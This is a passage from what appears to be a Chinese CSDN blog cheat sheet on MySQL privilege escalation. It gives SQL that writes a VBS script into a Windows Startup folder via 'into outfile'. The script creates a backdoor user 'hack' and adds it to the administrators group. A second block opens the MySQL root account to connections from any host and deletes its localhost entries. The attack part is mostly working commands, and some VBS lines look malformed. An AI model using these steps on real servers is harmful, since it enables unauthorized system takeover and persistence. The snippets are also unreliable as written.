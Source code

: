 ### [MySQL UDF提权](https://blog.csdn.net/qq_36119192/article/details/84863268)



[MySQL UDF提权执行系统命令](https://blog.csdn.net/qq_36119192/article/details/84863268)



### MySQL启动项提权



MySQL启动项[提权](https://so.csdn.net/so/search?q=%E6%8F%90%E6%9D%83&spm=1001.2101.3001.7020)的前提也是 secure\_file\_priv 的值为空，然后利用 intou outfile 写入功能，在目标服务器的开机自启目录下写入木马，然后用其他办法使服务器重启，从而获得权限。由于需要使目标服务器重启，所以在实战利用中并不常用。



```
create table a(cmd text);      
insert into a values("set wshshell=createobject(""wscript.shell"",0)");      
insert into a values("set wshshell=createobject(""cmd.exe /c net user hack Password@ /add"",0)");      
insert into a values("set wshshell=createobject(""cmd.exe /c net localgroup administrators /add"",0)");      
select*from a into outfile"C:\\Users\\用户名\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\1.vbs";
```




![](https://img-blog.csdnimg.cn/20200106144124747.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### MySQL数据库允许其他主机连接



![](https://img-blog.csdnimg.cn/20200222181254567.png)



```
use mysql;      
update user set host='%' where user='root';      
flush privileges;       
如果以上命令执行失败,可以执行以下命令：      
select host,user from mysql.user;      
delete FROM mysql.user  where host="127.0.0.1";      
delete FROM mysql.user  where host="::1";
```




![](https://img-blog.csdnimg.cn/20200222181827668.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)


